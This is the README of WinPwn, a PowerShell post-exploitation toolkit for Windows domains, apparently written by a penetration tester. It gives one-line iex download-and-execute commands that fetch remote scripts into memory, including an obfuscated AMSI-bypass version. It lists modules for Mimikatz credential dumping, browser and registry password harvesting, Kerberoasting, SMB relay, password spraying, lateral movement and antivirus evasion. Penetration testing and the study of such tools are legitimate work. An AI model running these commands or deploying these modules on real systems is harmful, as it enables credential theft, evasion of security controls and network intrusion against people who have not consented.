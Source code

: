 [![](https://img.shields.io/badge/Donate-Bitcoin-blue.svg?style=flat)](https://blockchain.info/address/1MXReD1F4w5SUXK3phLVJ5M8KrXJHfecmZ)

# WinPwn
In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. I often ran the same scripts one after the other to get information about the current system and/or the domain. To automate this process and for the proxy reason I wrote my own script with automatic proxy recognition and integration. 
The script is mostly based on well-known large other offensive security Powershell projects. They are loaded into RAM via IEX Downloadstring.

Yes it is not a C# and it may be flagged by antivirus solutions. Windows Defender for example blocks some of the known scripts/functions. Maybe someday a C# Version will follow.

Any suggestions, feedback and comments are welcome!

Just Import the Modules with:
`Import-Module .\WinPwn.ps1` or 
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn.ps1')`

For AMSI Bypass use the following oneliner:
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/ObfusWinPwn.ps1')`

Functions available after Import:
* #### `WinPwn` -> Menu to choose attacks:
![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn.JPG)
* #### `Inveigh` -> Executes Inveigh in a new Console window , SMB-Relay attacks with Session management (Invoke-TheHash) integrated
* #### `sessionGopher` -> Executes Sessiongopher Asking you for parameters
* #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz
* #### `localreconmodules` -> 
  * Checks the Powershell event logs for credentials or other sensitive informations
  * Checks for WSUS Server over HTTP (Fake Update vulnerability)
  * Checks the local SMB-Signing state
  * Collects various local system informations (Installed Software + vulnerable software, Shares, privileges, local groups, network information
  * Searches for passwords in the registry as well as in files on the hard disk + Browser Credentials
  * Search for .NET Binaries on the local system (which can be reverse engineered for vulnerability analysis) 
  * Optional: Get-Computerdetails (Powersploit) , Just another Windows Privilege escalation script, Winspect
* #### `JAWS` -> Just another Windows Privilege Escalation script
* #### `domainreconmodules` -> 
  * Powerview function output gets stored on disk for review. 
  * A search for AD-Passwords in description fields is done. 
  * Unconstrained delegation systems/users are enumerated. 
  * SQL Server discovery and Auditing functions (default credentials, passwords in the database and more).
  * MS-RPRN Check for Domaincontrollers
  * An AD-Report is generated in CSV Files (or XLS if excel is installed) with ADRecon. 
* #### `Privescmodules` -> Executes different privesc scripts in memory (PowerUp Allchecks, Sherlock, GPPPasswords)
* #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) 
* #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. DomainPassword-Spray for new Credentials can also be used here.
* #### `empirelauncher` -> Launch powershell empire oneliner on remote Systems
* #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder (Powerview / Powersploit)
* #### `groupsearch` -> Get-DomainGPOUserLocalGroupMapping - find Systems where you have Admin-access or RDP access to via Group Policy Mapping (Powerview / Powersploit)
* #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
* #### `powerSQL` -> SQL Server discovery, Check access with current user, Audit for default credentials + UNCPath Injection Attacks
* #### `Sharphound` -> Downloads Sharphound and collects Information for the Bloodhound DB
* #### `adidnswildcard` -> Create a Active Directory-Integrated DNS Wildcard Record and run Inveigh for mass hash gathering.
* #### `MS17-10` -> Scan active windows Servers in the domain or all systems for MS17-10 (Eternalblue) vulnerability

The submodule is a forked and edited version of https://github.com/Cn33liz/p0wnedShell. You can compile it yourself and use it for powershell restriction bypass and AMSI-Bypass. Most AV-Solutions can be evaded this way. Just run the executable File, choose 17. and execute WinPwn.

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/p0wnedmenu.PNG)

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/p0wned.png)

## TO-DO
- [x] Some obfuskation
- [ ] More obfuscation
- [ ] Proxy via PAC-File support
- [x] Get the scripts from my own creds repository (https://github.com/SecureThisShit/Creds) to be independent from changes in the original repositories
- [ ] More Recon/Exploitation functions
- [ ] msDS-AllowedToActOnBehalfOfOtherIdentity Ressource based constrained delegation
- [x] Add MS17-10 Scanner
- [x] Add menu for better handling of functions
- [x] Amsi Bypass

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Pwn.png)

## CREDITS

- [X] [Kevin-Robertson](https://github.com/Kevin-Robertson/) - Inveigh, Powermad, Invoke-TheHash
- [X] [Arvanaghi](https://github.com/Arvanaghi/) - SessionGopher
- [X] [PowerShellMafia](https://github.com/PowerShellMafia/) - Powersploit
- [X] [Dionach](https://github.com/Dionach/) - PassHunt
- [X] [A-mIn3](https://github.com/A-mIn3/) - WINSpect
- [X] [411Hall](https://github.com/411Hall/) - JAWS
- [X] [sense-of-security](https://github.com/sense-of-security/) - ADrecon
- [X] [dafthack](https://github.com/dafthack/) - DomainPasswordSpray
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Sherlock
- [X] [AlessandroZ](https://github.com/AlessandroZ/) - LaZagne
- [X] [samratashok](https://github.com/samratashok/) - nishang
- [X] [leechristensen](https://github.com/leechristensen/) - Random Repo
- [X] [HarmJ0y](https://github.com/HarmJ0y) - Many good Blogposts, Gists and Scripts
- [X] [NETSPI](https://github.com/NetSPI/) - PowerUpSQL
- [X] [Cn33liz](https://github.com/Cn33liz/) - p0wnedShell
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Amsi AmsiScanBufferBypass

## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
